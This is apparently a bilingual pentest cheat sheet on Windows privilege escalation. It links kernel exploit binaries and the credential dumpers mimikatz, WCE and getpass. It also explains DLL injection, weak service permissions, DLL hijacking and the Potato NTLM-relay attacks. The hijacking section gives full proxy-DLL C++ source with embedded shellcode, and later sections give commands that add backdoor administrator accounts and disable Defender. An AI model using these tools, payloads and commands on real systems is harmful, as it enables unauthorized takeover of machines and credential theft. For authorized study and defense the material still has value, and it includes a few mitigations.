| Windows Server 2003, Windows Server 2008, 7, 8, Windows Server 2012          | Kernel Driver               | [MS15-061](https://technet.microsoft.com/en-us/library/security/ms15-061.aspx) | 3057839 | [Github](https://github.com/Rootkitsmm/MS15-061)                                                                                                                                                                                                                                                                   |
| Windows Server 2003, XP                                                      | AFD.sys                     | [MS11-080](https://technet.microsoft.com/en-us/library/security/ms11-080.aspx) | 2592799 | [EXE](http://bhafsec.com/files/windows/ms110-080.exe) [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms11_080_afdjoinleaf) [ExploitDB](https://www.exploit-db.com/exploits/18176/)                                                                                                           |
| Windows Server 2003, XP                                                      | NDISTAPI                    | [MS11-062](https://technet.microsoft.com/en-us/library/security/ms11-062.aspx) | 2566454 | [ExploitDB](https://www.exploit-db.com/exploits/40627/)                                                                                                                                                                                                                                                            |
| Windows Server 2003, Windows Server 2008, 7, 8, Windows Server 2012          | RPC                         | [MS15-076](https://technet.microsoft.com/en-us/library/security/ms15-076.aspx) | 3067505 | [Github](https://github.com/monoxgas/Trebuchet)                                                                                                                                                                                                                                                                    |
| Windows Server 2003, Windows Server 2008, 7, 8, Windows Server 2012          | Hot Potato                  | [MS16-075](https://technet.microsoft.com/en-us/library/security/ms16-075.aspx) | 3164038 | [GitHub](https://github.com/foxglovesec/RottenPotato) [PowerShell](https://github.com/Kevin-Robertson/Tater) [HotPotato](https://github.com/foxglovesec/Potato)                                                                                                                                                    |
| Windows Server 2003, Windows Server 2008, 7, XP                              | Kernel Driver               | [MS15-010](https://technet.microsoft.com/en-us/library/security/ms15-010.aspx) | 3036220 | [GitHub](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/39035.zip) [ExploitDB](https://www.exploit-db.com/exploits/37098/)                                                                                                                                                  |
| Windows Server 2003, Windows Server 2008, 7, XP                              | AFD.sys                     | [MS11-046](https://technet.microsoft.com/en-us/library/security/ms11-046.aspx) | 2503665 | [EXE](http://bhafsec.com/files/windows/ms11-046.exe) [ExploitDB](https://www.exploit-db.com/exploits/40564/)                                                                                                                                                                                                       |

**用户密码或hash获取:**

1.WCE

https://www.ampliasecurity.com/research/windows-credentials-editor/

2.mimikatz

https://github.com/gentilkiwi/mimikatz/releases

3.get-pass

https://www.pconlife.com/dfiles/20200228/74c8602b526646ff3a122f712c73f58e/getpass.exe

**IIS6提权工具(MS09-020):**

https://www.7kb.org/wp-content/uploads/2015/11/MS09-020KB970483-CVE-2009-1535-IIS6.rar

一款windows本地溢出工具，可以将低权限用户提升为系统权限，常见于webshell提权

补丁号:KB970483 CVE-2009-1535

上传webshell:

**ms11-080提权:**

https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS11-080/ms11-080.exe

一款windows本地溢出工具，可以将低权限用户提升为系统权限，常见于webshell提权

补丁号: KB2592799 CVE-2011-2005

**PR提权(MS09-012):**

https://www.pconlife.com/dfiles/20200228/3db554e6146e47bb88cf6bf0730bbb1f/pr.exe

一款windows本地溢出工具，可以将低权限用户提升为系统权限，常见于webshell提权

补丁号:KB952004 CVE-2009-0079

**巴西烤肉提权(MS09-012):**

https://raw.githubusercontent.com/Re4son/Churrasco/master/churrasco.exe

一款windows本地溢出工具，可以将低权限用户提升为系统权限，常见于webshell提权

补丁号: KB956572 CVE-2009-0078

**DLL注入:**

DLL injection is a technique which allows an attacker to run arbitrary code in
the context of the address space of another process. If this process is running
with excessive privileges then it could be abused by an attacker in order to
execute malicious code in the form of a DLL file in order to elevate privileges.

Specifically this technique follows the steps below:

>   1.A DLL needs to be dropped into the disk

>   2.The “CreateRemoteThread” calls the “LoadLibrary”

>   3.The reflective loader function will try to find the Process Environment
>   Block (PEB) of the target process using the appropriate CPU register and
>   from that will try to find the address in memory of kernel32dll and any
>   other required libraries.

>   4.Discovery of the memory addresses of required API functions such as
>   LoadLibraryA, GetProcAddress, and VirtualAlloc.

>   5.The functions above will be used to properly load the DLL into memory and
>   call its entry point DllMain which will execute the DLL.

Manual Method

It should be noted that a 64-bit payload should be used if the process that the
DLL will be injected is 64-bit.

There are various tools that can perform DLL injection but one of the most
reliable is the Remote DLL Injector from SecurityXploded team which is using the
CreateRemoteThread technique and it has the ability to inject DLL into ASLR
enabled processes. The process ID and the path of the DLL are the two parameters
that the tool needs:

https://cdn.securityxploded.com/download/RemoteDLLInjector.zip

Metasploit

PowerSploit

ASLR(地址空间配置随机化)

加载程序时不再使用固定的基址加载，干扰shellcode定位的一种保护机制

支持ASLR的程序在其PE头中会设置IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识来说明其支持ASLR

ASLR一般分为映像随机化、堆栈随机化、PEB与TEB随机化

1.映像随机化

映像随机化是在PE文件映射到内存时，对其加载的虚拟地址进行随机化处理，这个地址在系统启动时确定，系统重启后该地址会变化。

系统中设置了映像随机化的开关，用户可以通过设置注册表中

HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session Manager\\Memory
Management\\MoveImages的键值来设定映像随机化的工作模式

>   0： 映像随机化被禁用

>   \-1：
>   强制对可随机化的映像进行处理，无论是否设置IMAGE_DLL_CHARACTERISTICS_DYNAMIC_BASE标识

>   其他值：正常工作模式，只对具有随机化处理标识的映像进行处理

2.堆栈随机化

在运行时随机的选择堆栈的基址，与映像基址随机化不同的是堆栈的基址不是在系统启动的时候确定的，而是在打开程序的时候确定的

3.PEB和TEB

PEB与TEB随机化在win xp
sp2就引入了，不再使用固定的PEB基址0x7FFDF00和TEB基址0x7FFDE00

4.ASLR存在的缺陷

>   映像随机化测试时各模块的入口点（Entry列）地址的低位2个字节是不变的，也就是说映像随机化只是对加载基址的前2字节做了随机处理

>   堆栈随机化可以防止精准攻击，但是使用JMP ESP跳板、浏览器攻击中的heap
>   spray等技术是不需要精准跳转

>   PEB与TEB的随机化的程度较差，而且即使做到完全随机，依然可以使用其他方法获取当前进程的PEB与TEB

**弱服务权限:**

It is very often in Windows environments to discover services that run with
SYSTEM privileges and they don’t have the appropriate permissions set by the
administrator. This means that either the user has permissions over the service
or over the folder of where the binary of the service is stored or even worse
both. These services can be found mostly in third party software and can be used
as an escalation point from user to administrator.

Manual

The first thing once a meterpreter sessions has been established as a standard
user is to determine if there are any services that the user has excessive
privileges on them. This can be done with the use of accesschk tool from
SysInternals.

https://docs.microsoft.com/zh-cn/sysinternals/downloads/accesschk

The command below will list all the services that the user “webserver” can
modify.

Service All Access means that the user has full control over this service and
therefore it is possible the properties of this service to be modified. The next
step is to determine the status of this service, the binary path name and if the
service with higher privileges.

Since the nxlog service is running as Local System this means that the
BINARY_PATH_NAME parameter can be modified to execute any command on the system.
The path of the service binary will be changed in order to add the “pentestlab”
user to the local administrators group the next time that the service will
restart and therefore to escalate our privileges via this method.

Restarting the service will cause the nxlog service to fail as the binary path
would not point into the actual executable of the service.

However the command will be executed successfully and the user “webserver” will
be added to the local administrators group.

Metasploit

There is metasploit module which can exploit weak service permissions very
easily. This module needs to be linked into an existing session.

This module will try to identify services that the user has write access on the
binary path and if this succeeds, will write a payload in a temporary folder,
reconfigure the binary path of the service to point into the payload and not in
the original executable and finally will attempt to restart the service in order
for the payload to be executed as SYSTEM.

PowerSploit

Exploitation of weak service permissions can be done as well completely through
PowerSploit as it contains modules for service enumeration and service abuse.
Depending on the situation and on the privileges available there are two
scenarios for privilege escalation:

Binary Path

The Get-ServiceDetail module will list some basic information about the service
like the process ID and the state.

This module will list all the services that the user can modify the binary path
and also will determine if the user can restart the service.

The module Invoke-ServiceAbuse will automatically modify the binary path and
restart the service in order to add the user john into the local administrators
group.

Replacing the Service Binary

If the user has permissions to write a file into the folder of where the binary
of the service is located then it is possible to just replace the binary with
the a custom payload and then restart the service in order to escalate
privileges.

The full list of permissions for the services running on the system can be
obtained through the module Get-ModifiableServiceFile.

From the image above the following conditions exist:

>   Weak Service is running as Local System

>   Standard users have permissions to modify the file of where the binary is
>   stored

This means that the nxlog.exe can be replaced by “normal users”. PowerSploit can
also create a custom binary that will add a user as local administrator.

It should be noted that the service.exe needs to be renamed to nxlog.exe ,which
is the original binary that the service will execute, and dropped into the
binary path. Once the service is restarted the command will be executed and a
new user will be created on the system with local administrator rights.

若执行成功，会添加一个本地管理员账户john Password123!

亦可使用msfvenom生成payload被运行后得到system权限的meterpreter会话

总结:

Privilege escalation via weak service permissions is something that can be
exploited relatively easy and with various tools and methods. Therefore
evaluation of permissions for the services and folders that exists on the system
is necessary to mitigate this threat.

>   Users should not have permissions to start or stop a service

>   The folder of which the service binary is located should be accessible only
>   to Administrators

**DLL劫持:**

DLL全称dynamic-link
library，即动态链接库，是一个包含可以由多个程序同时使用的代码和数据的库。比如，windows操作系统中的Comdlg32.dll
包含常见的对话框相关导出函数，当我们在程序中加载该DLL后，就能使用该DLL中的函数来实现“打开”对话框。

函数转发的DLL劫持方式:

原始dll1.dll

dllmain.cpp:

// dllmain.cpp : 定义 DLL 应用程序的入口点。

\#include "pch.h"

bool add() {

MessageBox(0, L"CONTENT", L"TITLE", 0);

return TRUE;

}

BOOL APIENTRY DllMain( HMODULE hModule,

DWORD ul_reason_for_call,

LPVOID lpReserved

)

{

switch (ul_reason_for_call)

{

case DLL_PROCESS_ATTACH:

case DLL_THREAD_ATTACH:

case DLL_THREAD_DETACH:

case DLL_PROCESS_DETACH:

break;

}

return TRUE;

}

pch.cpp:

// pch.cpp: 与预编译标头对应的源文件

\#include "pch.h"

// 当使用预编译的头时，需要使用此源文件，编译才能成功。

pch.h:

// pch.h: 这是预编译标头文件。

// 下方列出的文件仅编译一次，提高了将来生成的生成性能。

// 这还将影响 IntelliSense 性能，包括代码完成和许多代码浏览功能。

//
但是，如果此处列出的文件中的任何一个在生成之间有更新，它们全部都将被重新编译。

// 请勿在此处添加要频繁更新的文件，这将使得性能优势无效。

\#ifndef PCH_H

\#define PCH_H

extern "C" bool \__declspec(dllexport)add();

// 添加要在此处预编译的标头

\#include "framework.h"

\#endif //PCH_H

framework.h:

\#pragma once

\#define WIN32_LEAN_AND_MEAN // 从 Windows 头文件中排除极少使用的内容

// Windows 头文件

\#include \<windows.h\>

原始Project1.exe:

call.cpp:

\#include \<windows.h\>

\#include "stdio.h"

typedef int(\*lpAddFun)();

int main(int argc, char\* argv[]) {

HINSTANCE hDll;

lpAddFun addFun;

hDll = LoadLibrary("Dll1.dll");

if (hDll != NULL) {

addFun = (lpAddFun)GetProcAddress(hDll, "add");

if (addFun != NULL) { int result = addFun();

printf("%d", result);

}

FreeLibrary(hDll);

}

return 0;

}

劫持dll2.dll:

dllmain.cpp:

\# include "pch.h"

\# define EXTERNC extern "C"

\# define NAKED \__declspec(naked)

\# define EXPORT EXTERNC \__declspec(dllexport)

\# define ALCPP EXPORT NAKED

\# define ALSTD EXTERNC EXPORT NAKED void \__stdcall

\# define ALCFAST EXTERNC EXPORT NAKED void \__fastcall

\# define ALCDECL EXTERNC NAKED void \__cdecl

namespace DLLHijacker

{

HMODULE m_hModule = NULL;

DWORD m_dwReturn[17] = { 0 };

inline BOOL WINAPI Load()

{

TCHAR tzPath[MAX_PATH];

lstrcpy(tzPath, TEXT("Dll1"));

m_hModule = LoadLibrary(tzPath);

if (m_hModule == NULL)

return FALSE;

return (m_hModule != NULL);

}

FARPROC WINAPI GetAddress(PCSTR pszProcName)

{

FARPROC fpAddress;

CHAR szProcName[16];

fpAddress = GetProcAddress(m_hModule, pszProcName);

if (fpAddress == NULL)

{

if (HIWORD(pszProcName) == 0)

{

wsprintf((LPWSTR)szProcName, L"%d", pszProcName);

pszProcName = szProcName;

}

ExitProcess(-2);

}

return fpAddress;

}

}

using namespace DLLHijacker;

VOID Hijack() //default open a calc.

{

/\*unsigned char shellcode_calc[] =

"\\xfc\\x48\\x83\\xe4\\xf0\\xe8\\xc0\\x00\\x00\\x00\\x41\\x51\\x41\\x50\\x52"

"\\x51\\x56\\x48\\x31\\xd2\\x65\\x48\\x8b\\x52\\x60\\x48\\x8b\\x52\\x18\\x48"

"\\x8b\\x52\\x20\\x48\\x8b\\x72\\x50\\x48\\x0f\\xb7\\x4a\\x4a\\x4d\\x31\\xc9"

"\\x48\\x31\\xc0\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\x41\\xc1\\xc9\\x0d\\x41"

"\\x01\\xc1\\xe2\\xed\\x52\\x41\\x51\\x48\\x8b\\x52\\x20\\x8b\\x42\\x3c\\x48"

"\\x01\\xd0\\x8b\\x80\\x88\\x00\\x00\\x00\\x48\\x85\\xc0\\x74\\x67\\x48\\x01"

"\\xd0\\x50\\x8b\\x48\\x18\\x44\\x8b\\x40\\x20\\x49\\x01\\xd0\\xe3\\x56\\x48"

"\\xff\\xc9\\x41\\x8b\\x34\\x88\\x48\\x01\\xd6\\x4d\\x31\\xc9\\x48\\x31\\xc0"

"\\xac\\x41\\xc1\\xc9\\x0d\\x41\\x01\\xc1\\x38\\xe0\\x75\\xf1\\x4c\\x03\\x4c"

"\\x24\\x08\\x45\\x39\\xd1\\x75\\xd8\\x58\\x44\\x8b\\x40\\x24\\x49\\x01\\xd0"

"\\x66\\x41\\x8b\\x0c\\x48\\x44\\x8b\\x40\\x1c\\x49\\x01\\xd0\\x41\\x8b\\x04"

"\\x88\\x48\\x01\\xd0\\x41\\x58\\x41\\x58\\x5e\\x59\\x5a\\x41\\x58\\x41\\x59"

"\\x41\\x5a\\x48\\x83\\xec\\x20\\x41\\x52\\xff\\xe0\\x58\\x41\\x59\\x5a\\x48"

"\\x8b\\x12\\xe9\\x57\\xff\\xff\\xff\\x5d\\x48\\xba\\x01\\x00\\x00\\x00\\x00"

"\\x00\\x00\\x00\\x48\\x8d\\x8d\\x01\\x01\\x00\\x00\\x41\\xba\\x31\\x8b\\x6f"

"\\x87\\xff\\xd5\\xbb\\xf0\\xb5\\xa2\\x56\\x41\\xba\\xa6\\x95\\xbd\\x9d\\xff"

"\\xd5\\x48\\x83\\xc4\\x28\\x3c\\x06\\x7c\\x0a\\x80\\xfb\\xe0\\x75\\x05\\xbb"

"\\x47\\x13\\x72\\x6f\\x6a\\x00\\x59\\x41\\x89\\xda\\xff\\xd5\\x63\\x61\\x6c"

"\\x63\\x2e\\x65\\x78\\x65\\x00";

TCHAR CommandLine[] = TEXT("c:\\\\windows\\\\system32\\\\rundll32.exe");

CONTEXT Context; // [sp+0h] [bp-324h]\@2

struct \_STARTUPINFOA StartupInfo; // [sp+2CCh] [bp-58h]\@1

struct \_PROCESS_INFORMATION ProcessInformation; // [sp+310h] [bp-14h]\@1

LPVOID lpBaseAddress; // [sp+320h] [bp-4h]\@

ZeroMemory(&StartupInfo, sizeof(StartupInfo));

StartupInfo.cb = 68;

if (CreateProcess(0, CommandLine, 0, 0, 0, 0x44, 0, 0,
(LPSTARTUPINFOW)&StartupInfo, &ProcessInformation)) {

Context.ContextFlags = 65539;

GetThreadContext(ProcessInformation.hThread, \&Context);

lpBaseAddress = VirtualAllocEx(ProcessInformation.hProcess, 0, 0x800u, 0x1000u,
0x40u);

WriteProcessMemory(ProcessInformation.hProcess, lpBaseAddress, &shellcode_calc,
0x800u, 0);

Context.Eip = (DWORD)lpBaseAddress;

SetThreadContext(ProcessInformation.hThread, \&Context);

ResumeThread(ProcessInformation.hThread);

CloseHandle(ProcessInformation.hThread);

CloseHandle(ProcessInformation.hProcess);

}\*/

MessageBox(0, L"hijacked", L"TITLE", 0);

WinExec("cmd.exe /c calc.exe", SW_SHOWNORMAL);

}

BOOL APIENTRY DllMain(HMODULE hModule,

DWORD ul_reason_for_call,

LPVOID lpReserved

)

{

switch (ul_reason_for_call)

{

case DLL_PROCESS_ATTACH:

{

DisableThreadLibraryCalls(hModule);

if (Load())

{

Hijack();

}

}

case DLL_THREAD_ATTACH:

case DLL_THREAD_DETACH:

case DLL_PROCESS_DETACH:

break;

}

return TRUE;

}

ALCDECL Hijack_add(void)

{

\__asm POP m_dwReturn[0 \* TYPE long];

GetAddress("add")();

\__asm JMP m_dwReturn[0 \* TYPE long];

}

pch.cpp:

\# include "pch.h"

Source.def:

LIBRARY

EXPORTS

add=Hijackadd \@1

pch.h:

\# ifndef PCH_H

\# define PCH_H

\# include "framework.h"

\# endif //PCH_H

framework.h:

\# pragma once

\# define WIN32_LEAN_AND_MEAN // 从 Windows 头文件中排除极少使用的内容

// Windows 头文件

\# include \<windows.h\>

劫持前:

劫持后:

直接将恶意代码写入到正常DLL中:

https://github.com/secretsquirrel/the-backdoor-factory

1.下载BDF，用-f指定要篡改的目标DLL，-s指定SHELLCODE。

2.将目标DLL修改为.bak后缀(保险措施)。

3.将篡改后的DLL文件移动至目标DLL目录下。

遗弃DLL劫持方式:

DLL搜索顺序

在系统搜索DLL之前，它会检查以下内容：

1.如果已在内存中加载具有相同模块名称的DLL，则系统将使用加载的DLL，无论它在哪个目录中，系统不搜索DLL。

2.如果DLL位于KnownDLLs列表中，则系统将使用其已知DLL（以及已知DLL的相关DLL，如果有），系统不搜索DLL。

默认情况下启用安全DLL搜索模式。要禁用此功能则需要创建

HKEY_LOCAL_MACHINE\\System\\CurrentControlSet\\Control\\Session Manager
\\SafeDllSearchMode注册表值并将其设置为0。

默认开启的SafeDllSearchMode搜索顺序如下：

1.进程对应的应用程序所在目录

2.系统目录(使用GetSystemDirectory函数获取此目录的路径)

3.16位系统目录(c:\\windows\\system没有函数可以获取此目录的路径，但会搜索它)

4.Windows目录(使用GetWindowsDirectory函数获取此目录的路径)

5.当前工作目录(Current Directory)

6.PATH环境变量中列出的目录

注: KnownDLLs

注册表位置：

HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Session
Manager\\KnownDLLs。

KnownDLLs注册表项下包含一系列常见的系统dll，如usp10.dll、lpk.dll、shell32.dll、user32.dll

如果创建注册表项

HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\SessionManager\\ExcludeFromKnownDlls

并指定具体dll名称，可以使KnownDLLs列表中同名的dll保护失效，修改后需要重启才能生效。

产生原因

程序或者服务尝试加载系统中不存在的DLL

https://github.com/cyberark/DLLSpy 利用该工具的静态检测方法就可以找到遗弃DLL

利用方法

由于程序或者服务会根据名称在系统中搜索指定DLL，那么利用方式十分简单，直接将恶意DLL文件修改为程序搜索或者服务尝试加载的DLL名称，然后将该恶意DLL放在任意的DLL搜索目录下即可。可以使用cobaltstrike生成的becaon.dll进行测试，当程序或者服务加载该DLL后即可得到Beacon(需关闭Defender)。

Rattler_x64.exe自动枚举出存在劫持的dll路径

查看exe的导入表工具:CFF Explorer.exe PEview.exe

生成DLL劫持代码的工具AheadLib

https://github.com/Yonsm/AheadLib/blob/master/Release/AheadLib.exe

https://github.com/kiwings/DLLHijacker

直接转发DLL函数方法(既适用于32位DLL劫持，也适用64位DLL劫持。但是直接转发函数的方法需要更改原来的DLL名称，这样才能顺利加载原来的DLL模块，否则，则会导致加载DL的过程出现死锁):

\#pragma comment(linker, "/EXPORT:MessageBoxATest=user32.MessageBoxA")

上述代码中的user32表示user32.dll模块。当DLL程序被加载的时候，会根据上述DLL的搜索路径自动搜索并加载user32.dll模块到进程中。当MessageBoxATest导出函数被调用的时候，系统会直接转发给user32.dll模块中的MessageBoxA导出函数去执行。

调用DLL函数方法(仅适用于劫持32位的DLL程序，不适用64位DLL。因为__declspec(naked)关键词不支持64位，而且64位下不支持__asm内联汇编):

extern "C" void \__declspec(naked) MessageBoxATest()

{

PVOID pAddr;

HMODULE hDll;

hDll = ::LoadLibrary("C:\\\\Windows\\\\System32\\\\user32.dll");

if (NULL != hDll)

{

pAddr = ::GetProcAddress(hDll, "MessageBoxA");

if (pAddr)

{

\__asm jmp pAddr

}

::FreeLibrary(hDll);

}

}

上述代码中，使用了关键字__declspec(naked)来声明MessageBoxATest函数是一个裸函数。__declspec(naked)
是告诉编译器不要对函数进行优化，函数的所有实现包括堆栈的平衡、参数的压栈、ebp的赋值和还原，甚至是ret都要程序来做。不需要任何优化，使用内联汇编，可以完全按自己意愿进行运行。注意naked特性仅适用于x86和ARM，并不用于x64
。同时，通过extern “C”来指明该部分代码使用C编译器来进行编译。

In Windows environments when an application or a service is starting it looks
for a number of DLL’s in order to function properly. If these DLL’s doesn’t
exist or are implemented in an insecure way (DLL’s are called without using a
fully qualified path) then it is possible to escalate privileges by forcing the
application to load and execute a malicious DLL file.

It should be noted that when an application needs to load a DLL it will go
through the following order:

>   The directory from which the application is loaded

>   C:\\Windows\\System32

>   C:\\Windows\\System

>   C:\\Windows

>   The current working directory

>   Directories in the system PATH environment variable

>   Directories in the user PATH environment variable

Step 1 – Processes with Missing DLL’s

The first step is to list all the processes on the system and discover these
processes which are running as SYSTEM and are missing DLL’s. This can be done
just by using the process monitor tool from Sysinternals and by applying the
filters below:

https://download.sysinternals.com/files/ProcessMonitor.zip

Process Monitor will identify if there is any DLL that the application tries to
load and the actual path that the application is looking for the missing DLL.

In this example the process xxx.exe is missing several DLL files which possibly
can be used for privilege escalation.

Step 2 – Folder Permissions

By default if a software is installed on the C:\\ directory instead of the
C:\\Program Files then authenticated users will have write access on that
directory. Additionally software like Perl, Python, Ruby etc. usually are added
to Path variable. This give the opportunity of privilege escalation since the
user can write a malicious DLL in that directory which is going to be loaded the
next time that the process will restart with the permission of that process.

Step 3 – DLL Hijacking

As it has been identified above the process is missing the Riched32.dll so the
hijack.dll needs to be renamed as Riched32.dll. This will confuse the
application and it will try to load it as the application will think that this
is a legitimate DLL. This malicious DLL needs to be dropped in one of the
folders that windows are loading DLL files.

As it can be see below when the service restarted a Meterpreter session opened
with SYSTEM privileges through DLL hijacking.

失败:

情况1:Bginfo64可正常执行，但没有弹回shell

情况2:Bginfo64执行报错，且没有弹回shell

当尝试替换成WINSTA.dll时，虽然Bginfo64执行中存在问题，但是恶意dll会被执行并弹回shell，关闭Bginfo64问题提示后，shell依然正常运行。

在使用dnu身份登录的情况下，反弹回lirui身份的shell，则该shell一定已BypassUAC

点击关闭程序按钮后，会话依然正常

发现目标主机上新开启了一个进程(即反弹的shell)

研究发现WINSTA.dll主要作用是控制显示在桌面上的配置信息

PowerSploit

The process of DLL hijacking can be done also through PowerSploit since it
contains three modules that can assist in the identification of services that
are missing DLL’s, discovery of folders that users have modification permissions
and generation of DLL’s.

The module Find-ProcessDLLHijack will identify all the processes on the system
that are trying to load DLL’s which are missing.

The next step is the identification of paths that the user can modify the
content. The folders identified will be the ones that the malicious .DLL needs
to be planted.

The last step is to generate the hijackable DLL into one of the folders that
have been identified above with Modify (M) permissions.

Discovering applications that are not installed in the Program files it is
something common as except of third-party applications that are not forced to be
installed in that path there is a possibility of a custom-made software to be
found outside of these protected folders. Additionally there are a number of
windows services like IKEEXT (IKE and AuthIP IPsec Keying Modules) that are
missing DLL’s (wlbsctrl.dll) and can be exploited as well either manually or
automatically.

For IKEEXT there is a specific Metasploit
module:exploit/windows/local/ikeext_service

总结

In order to be able to escalate privileges via DLL hijacking the following
conditions needs to be in place:

>   Write Permissions on a system folder

>   Software installation in a non-default directory

>   A service that is running as system and is missing a DLL

>   Restart of the service

**Hot Potato(MS16-075 KB3164038):**

Hot potato is the code name of a Windows privilege escalation technique that was
discovered by Stephen Breen. This technique is actually a combination of two
known windows issues like NBNS spoofing and NTLM relay with the implementation
of a fake WPAD proxy server which is running locally on the target host.

NTLM authentication via the same protocol like SMB has been already patched by
Microsoft however this technique is using HTTP to SMB authentication in order to
create a high privilege service as the HTTP request might come from a high
privilege service like the Windows update. Since the traffic contains the NTLM
credentials and is passing through a fake proxy server it can be captured and
passed to a local SMB listener to create an elevated service which can execute
any command as SYSTEM.

This issue affects various windows versions like:

>   Windows 7

>   Windows 8

>   Windows 10

>   Windows Server 2008

>   Windows Server 2012

The exploit consists of 3 main parts, all of which are somewhat configurable
through command-line switches:

1. Local NBNS Spoofer NBNS is a broadcast UDP protocol for name resolution
commonly used in Windows environments. In penetration testing, we often sniff
network traffic and respond to NBNS queries observed on a local network. For
privilege escalation purposes, we can't assume that we are able to sniff network
traffic, so how can we accomplish NBNS spoofing?

If we can know ahead of time which host a target machine (in this case our
target is 127.0.0.1) will be sending an NBNS query for, we can craft a response
and flood the target host with NBNS responses (since it is a UDP protocol). One
complication is that a 2-byte field in the NBNS packet, the TXID, must match in
the request and response. We can overcome this by flooding quickly and iterating
over all 65536 possible values.

What if the host we are trying to spoof has a DNS record already? Well we can
FORCE DNS lookups to fail in a funny way. Using a technique called "port
exhaustion" we bind to every single UDP port. When you try to perform a DNS
lookup it will fail because there will be no available source port for the DNS
reply to come to.

2. Fake WPAD Proxy Server With the ability to spoof NBNS responses, we can
target our NBNS spoofer at 127.0.0.1. We flood the target machine (our own
machine) with NBNS response packets for the host "WPAD", or "WPAD.DOMAIN.TLD",
and we say that the WPAD host has IP address 127.0.0.1.

At the same time, we run an HTTP server locally on 127.0.0.1. When it receives a
request for "http://wpad/wpad.dat", it responds with something like the
following:

FindProxyForURL(url,host){

if (dnsDomainIs(host, "localhost")) return "DIRECT";

return "PROXY 127.0.0.1:80";}

This will cause all HTTP traffic on the target to be redirected through our
server running on 127.0.0.1.

Interestingly, this attack when performed by even a low privilege user will
affect all users of the machine. This includes administrators, and system
accounts.

3. HTTP -\> SMB NTLM Relay With all HTTP traffic now flowing through a server
that we control, we can do things like request NTLM authentication

In the Potato exploit, all requests are redirected with a 302 redirect to
"http://localhost/GETHASHESxxxxx", where xxxxx is some unique identifier.
Requests to "http://localhost/GETHASHESxxxxx" respond with a 401 request for
NTLM authentication.

The NTLM credentials are relayed to the local SMB listener to create a new
system service that runs a user-defined command. This command will run with "NT
AUTHORITY\\SYSTEM" privilege.

Using the Exploit Usage is currently operating system dependant.

It is also a bit flaky sometimes, due to the quirks in how Windows handles proxy
settings and the WPAD file. Often when the exploit doesn't work, it is required
to leave it running and wait. When Windows already has a cached entry for WPAD,
or is allowing direct internet access because no WPAD was found, it could take
30-60 minutes for it to refresh. It is necessary to leave the exploit running
and try to trigger it again later, after this time has elapsed.

https://github.com/foxglovesec/Potato

需要.net framework 3.5

win7:

Windows Server 2008:

Since Windows Server doesn't come with Defender, we need an alternate method.
Instead we'll simply check for Windows updates.

1.运行

Potato.exe -ip \<local ip\> -cmd \<command to run\> -disable_exhaust true
-disable_defender true --spoof_host WPAD.EMC.LOCAL

2.打开windows update

3.点击check for updates

If it doesn't trigger, wait about 30m with the exploit running and check again.
If it still doesn't work, try actually downloading an update.

If your network has a DNS entry for "WPAD" already, you can try
"-disable_exhaust false". This should cause the DNS lookup to fail and it should
fallback to NBNS.

Windows 8/10/Server 2012:

In the newest versions of Windows, it appears that Windows Update may no longer
respect the proxy settings set in "Internet Options", or check for WPAD. Instead
proxy settings for Windows Update are controlled using "netsh winhttp proxy..."

1.运行

Potato.exe -ip \<local ip\> -cmd \<command to run\> -disable_exhaust true
-disable_defender true

2.ping wpad成功

3.修改日期时间到超前于现在(need to wait up to 24hrs or find another way to
trigger this update)

4.netsh winhttp show
proxy显示当前winhttp代理设置为直连(没有代理服务器)，但是更新依然会根据wpad进行下载，所以亦可利用成功

Metasploit

potato通过IE钓鱼administrator用户获取system权限shell:

关闭浏览器并关闭shell channel后，meterpreter会话依然正常

PowerShell

There is an alternative option which simulates the Hot Potato exploit in
PowerShell and is called Tater.

https://github.com/Kevin-Robertson/Tater

This script is included in Empire, P0wnedShell and PS\>Attack and it has two
methods to perform privilege escalation.

>   1.NBNS WPAD Bruteforce + Windows Defender Signature Updates

>   2.WebClient Service + Scheduled Task

win7:

win10(WebClient Service + Scheduled Task):

Invoke-Tater -Command “net localgroup administrators xxuser /add” -trigger 2

win7(using trigger 1 and UDP port exhaustion):

Invoke-Tater -Command “net user xxx xxx /add && net localgroup administrators
xxx /add” -exhaustudp y

缓解措施:

1.Enabling "Extended Protection for Authentication" in Windows should stop NTLM
relay attacks.

2. SMB Signing may also mitigate this type of attack.

主机名解析欺骗 Responder.py

python Responder.py –I eth0 –spoof \<target\>:\<spoof address\>:\<spoof host\>

**juicy-potato(abusing the golden privileges):**

Local Privilege Escalation tool, from a Windows Service Accounts to NT
AUTHORITY\\SYSTEM.

https://github.com/ohpe/juicy-potato/releases

实现原理:

1.使用DCOM时，如果以服务的方式远程连接，那么权限为System，例如BITS服务

2.使用DCOM可以通过TCP连接到本机的一个端口，发起NTLM认证，该认证可以被重放

3.LocalService用户默认具有SeImpersonate和SeAssignPrimaryToken权限

4.开启SeImpersonate权限后，能够在调用CreateProcessWithToken时，传入新的Token创建新的进程

5.开启SeAssignPrimaryToken权限后，能够在调用CreateProcessAsUser时，传入新的Token创建新的进程

实现流程:

1.加载COM，发出请求，权限为System

在指定ip和端口的位置尝试加载一个COM对象

RottenPotatoNG使用的COM对象为BITS，CLSID为{4991d34b-80a1-4291-83b6-3328366b9097}

可供选择的COM对象不唯一，Juicy Potato提供了多个，详细列表可参考如下地址：

https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

2.回应步骤1的请求，发起NTLM认证

正常情况下，由于权限不足，当前权限不是System，无法认证成功

3.针对本地端口，同样发起NTLM认证，权限为当前用户

由于权限为当前用户，所以NTLM认证能够成功完成

RottenPotatoNG使用的135端口

Juicy Potato支持指定任意本地端口，但是RPC一般默认为135端口，很少被修改

4.分别拦截两个NTLM认证的数据包，替换数据，通过NTLM重放使得步骤1(权限为System)的NTLM认证通过，获得System权限的Token

重放时需要注意NTLM认证的NTLM Server Challenge不同，需要修正

5.利用System权限的Token创建新进程

如果开启SeImpersonate权限，调用CreateProcessWithToken，传入System权限的Token，创建的进程为System权限

或者

如果开启SeAssignPrimaryToken权限，调用CreateProcessAsUser，传入System权限的Token，创建的进程为System权限

利用关键:

当前用户支持SeImpersonate或者SeAssignPrimaryToken权限

以下用户具有该权限：

>   本地管理员组成员和本地服务帐户

